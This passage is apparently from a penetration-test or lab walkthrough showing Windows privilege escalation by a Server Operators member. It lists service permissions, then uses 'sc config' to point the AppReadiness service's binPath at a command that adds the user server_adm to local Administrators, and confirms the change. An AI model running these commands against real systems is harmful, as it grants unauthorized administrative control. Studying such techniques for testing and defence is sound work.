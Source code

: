 ```
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

3) Checking Local Admin Group Membership

```
net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
The command completed successfully.
```

4) Modifying the Service Binary Path

```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"

[SC] ChangeServiceConfig SUCCESS
```

5) Starting the Service

```
sc start AppReadiness

[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

6) Confirming Local Admin Group Membership

```
net localgroup Administrators

Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.
```
